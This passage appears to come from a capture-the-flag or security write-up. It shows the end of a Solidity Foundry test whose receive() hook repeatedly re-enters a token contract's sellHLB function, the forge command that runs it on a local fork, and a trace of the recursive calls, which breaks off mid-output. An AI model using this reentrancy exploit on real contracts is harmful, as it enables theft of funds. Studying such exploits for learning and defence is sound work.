 ```solidity
        ht.sellHLB(1);
        ht.senior();
    }

    receive() external payable {
        emit log_named_uint(
            "seniority",
            ht.seniorityOf(address(this)) / 365 days
        );
        if (i <= 8) {
            i++;
            ht.sellHLB(1);
        }
    }
}
```

Running the above script with forge:

```bash
forge run test/token.t.sol --fork-url http://127.0.0.1:8545 --sig "pwn()" -vvvv
```

returns the following output:

<div class="table-wrapper">
<pre><b>[</b><font color="#4E9A06"><b>⠒</b></font><b>]</b> Compiling...    
<b>[</b><font color="#4E9A06"><b>⠢</b></font><b>]</b> Compiling 6 files with 0.8.13    
<b>[</b><font color="#4E9A06"><b>⠰</b></font><b>]</b> Solc 0.8.13 finished in 2.02s  
Compiler run successful
Traces:   
  [278997] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">pwn</font>()    
    ├─ [28455] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">dbd6bdcb</font>{value: 12}()   
    │   └─ <font color="#4E9A06">← </font>()
    ├─ [234688] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)    
    │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>
    │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font> 
    │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font> 
    │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font>
    │   ├─ [198085] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()  
    │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>  
    │   │   │   └─ <font color="#4E9A06">← </font>0x0000000000000000000000000000000000000000000000000000000001e13380 
    │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 1)   
    │   │   ├─ [171914] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)  
    │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>   
    │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font>    
    │   │   │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font>  
    │   │   │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font> 
    │   │   │   ├─ [159211] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()  